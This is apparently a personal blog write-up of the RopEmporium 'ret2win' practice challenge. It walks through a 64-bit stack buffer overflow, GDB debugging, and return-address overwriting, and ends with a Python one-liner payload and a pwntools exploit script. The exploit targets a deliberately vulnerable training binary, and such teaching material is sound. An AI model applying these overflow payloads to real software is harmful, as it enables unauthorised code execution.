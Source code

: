 ```yaml
---
layout: single
title: "RopEmporium - Ret2win"
---
```


I recently came across Rop Emporium and I thought I'd give it a go and post my progress! Let's jump in...

All the challenges are hosted on the site https://ropemporium.com/, there is also a guide with plenty of useful information, tools and techniques that be used during the challenges.

# ret2win - https://ropemporium.com/challenge/ret2win.html

The description for ret2win starts with "ret2win means 'return here to win'" - sounds simple, right?

Running the binary and we see the message below, it mentions trying to 56 bytes into 32 bytes of stack buffer, what could go wrong? We know that the stack grows down from higher addresses to lower addresses, and when a function prolog takes place it reserves space on the stack for local variables.

![alt text](https://ben0.github.io/assets/images/ret2win-intro.PNG "Running the binary ret2win")

If we execute the binary with more than 32 characters what'll happen? Let's try with 48 characters...

![alt text](https://ben0.github.io/assets/images/ret2win-overflow.PNG "Overflowing the buffer")

Yep, we overflowed the buffer and caused the binary to segfault. Why? The call to read() accepts upto 56 bytes, which is 24 more than the 32 bytes of variable space allocated. Our input is accepted pushing the data onto the stack, the 'pwnme' function wraps up, and the ret instruction then pops the next 8 bytes off the stack which is 'AAAAAAAA', because this isn't a valid memory address, it segfaults!

When the read() function stores the data on the stack it starts from lower addresses and works to high addresses, overwriting any existing data in memory as it goes...

Before we move on it's handy to enumerate the binary, we'll use NM to understand the symbols or functions within the binary, and Rabin2 to see what mitigations are enabled.

![alt text](https://ben0.github.io/assets/images/ret2win-nm.PNG "Symbols within the binary")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2.PNG "Mitigations")

Within the binary there are a few functions, including one called `ret2win` at address `0x0000000000400756`. There is a `mov    edi,0x400943` then `call   400560 <system@plt>`, lets see what string is being moved into edi from address `0x400983` - Rabin2 is great for analysing strings in binaries.

![alt text](https://ben0.github.io/assets/images/ret2win-objdump-ret2win.PNG "Ret2win function disassembled")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2-strings.PNG "Strings within the binary")

Our objective is to overwrite the return address from pwnme to jump to the symbol `ret2win` rather than jumping back `main`, within the ret2win function the system call will execute the string in edi which is `/bin/cat flag.txt`.

## Exploit

Using GDB it's easy to debug the binary, experimenting with different payloads to understand what's happening.

What we know:

- It's 64bit
- The buffer is 32 bytes and and read() accepts 56 bytes, meaning a stackover flow can occur
- ASLR is disabled (PIC), the adddresses of our symbols will be the same every time the binary is run

Firing up GDB with the binary, set a breakpoint on the address of pwnme with `break *pwnme`, and run the binary with `run < <(python -c "print 'A' * 32 + 'B' * 8 + 'C' * 8")`, continue, and step through a few instructions, and we're setup for the which will pop the next instruction off the stack and try and jump to it.

In the screenshot we can the top of the stacking is pointing `CCCCCCCC` or `0x4343434343434343`, this will be popped off the stack into RIP and executed, though this time it'll segfault. But we know that whatever is in those 41-48 bytes will end up in the instruction register.

![alt text](https://ben0.github.io/assets/images/ret2win-gdb-pwnme.PNG "Pwnme function - GDB")

### Method 1 - Python

`python -c "print 'A' * 32 + 'B' * 8 + '\x00\x00\x00\x00\x00\x40\x07\x56'[::-1]" | ./ret2win`

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Python to win")

### Method 2- Pwntools

```
from pwn import *

context.arch = 'amd64'

elf = ELF("ret2win")

pwnme_symbol = p64(elf.symbols["ret2win"])

payload = b"a" * 40
payload += pwnme_symbol

io = elf.process()
io.sendline(payload)
data = io.recvall()
print(data)
```

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Pwntools to win")

